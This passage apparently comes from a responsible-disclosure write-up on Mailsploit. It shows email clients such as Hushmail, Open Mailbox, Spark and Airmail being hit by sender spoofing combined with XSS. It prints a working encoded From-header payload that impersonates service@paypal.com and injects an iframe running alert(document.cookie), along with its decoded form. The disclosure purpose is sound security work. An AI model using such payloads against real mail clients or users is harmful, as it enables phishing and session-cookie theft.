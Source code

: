 ## One more thing: Code injection

Some affected companies and vendors were affected by both email spoofing and code injection vulnerabilities (here, XSS).

- Example 1: [Hushmail](https://hushmail.com)

The code execution is triggered when clicking on “Create a rule”. Their team was extremely fast to fix the issue.

@[youtube](Upbamn3PZz8)

Here is the payload that was used for Hushmail:

`From: =?utf-8?b?c2VydmljZUBwYXlwYWwuY29tPGlmcmFtZSBvbmxvYWQ9YWxlcnQoZG9jdW1lbnQuY29va2llKSBzcmM9aHR0cHM6Ly93d3cuaHVzaG1haWwuY29tIHN0eWxlPSJkaXNwbGF5Om5vbmUi?==?utf-8?Q?=0A=00?=@mailsploit.com`

Which then becomes:

`From: service@paypal.com<iframe onload=alert(document.cookie) src=https://www.hushmail.com style="display:none"\n\0@mailsploit.com`

In this example, the HTML is inside the encoded part of the mail.

- Example 2: [Open Mailbox](https://openmailbox.org)

@[youtube](gfAGOMeiXNI)

- Example 3: [Spark](https://sparkmailapp.com/) and [Airmail](http://airmailapp.com/)

@[youtube](fyPhVIZQ44c)